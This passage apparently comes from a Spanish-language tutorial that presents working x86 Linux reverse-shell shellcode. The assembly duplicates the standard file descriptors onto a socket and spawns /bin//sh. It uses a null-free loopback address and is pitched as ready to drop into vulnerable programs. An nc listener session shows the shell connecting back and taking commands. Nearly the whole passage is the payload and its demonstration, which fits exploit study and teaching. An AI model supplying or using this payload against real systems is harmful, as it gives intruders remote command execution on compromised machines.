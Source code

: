 xor ecx, ecx  
mov cl, 0x3  
mov ebx, esi ; fildes2 = fd  
bucle:  
dec cl ; fildes = stderr (fildes = 3) / stdout (2) / stdin (0)  
mov al, 0x3f ; \_\_NR\_dup2  
int 0x80 ; dup2()  
jne bucle

; execve(«/bin//sh», \[«/bin//sh», NULL\], NULL);  
push edx  
push 0x68732f6e  
push 0x69622f2f  
mov ebx, esp  
push edx  
push ebx  
mov ecx, esp  
push edx  
mov edx, esp  
xor eax, eax  
mov al, 0xb  
int 0x80

Este código está basado en uno de blackngel (David Puente Castro), pero yo he corregido un fallito que tenía y lo he mejorado algo, todo por vosotros 😉 .  
Obsérvese que en la IP he usado 127.1.1.1 (equivalente a 127.0.0.1) para evitar poner un número nulo, por si acaso alguien lo desea usar para probar en algún programa vulnerable.

Podemos probarlo:  

    $ nc -lvvp31337 
    Listening on any address 31337
    ^Z
    [1]+  Detenido                nc -lvvp31337

$ bg  
\[1\]+ nc -lvvp31337 &

$ nasm a.asm -o a.o -felf

$ ld -melf\_i386 a.o -o a

$ ./a &  
\[2\] 12395  
Connection from 127.0.0.1:55484

$ fg  
nc -lvvp31337  
whoami  
arget  
exit  
Total received bytes: 156  
Total sent bytes: 15  
\[2\]- Hecho ./a

$
